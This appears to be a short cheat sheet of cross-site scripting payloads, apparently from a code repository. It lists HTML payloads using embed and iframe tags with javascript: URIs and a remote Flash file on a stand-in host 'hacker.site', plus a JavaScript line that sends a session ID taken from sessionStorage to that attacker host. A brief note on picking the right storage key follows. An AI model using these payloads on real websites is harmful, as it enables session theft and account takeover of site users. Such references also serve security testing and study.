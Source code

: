 ## Payloads
```html
<embed src="http://hacker.site/evil.swf">
<embed src="javascript:alert(1)">
<iframe src='jAvAsCripT:alert`1`'></iframe>


```

## Extract Session Data
```js
new Image().src ="http://hacker.site/SID?"+escape(sessionStorage.getItem('sessionID'));
```

> Despite `document.cookie`, the attacker needs to be more precise because the name of the key used to store the session ID may change

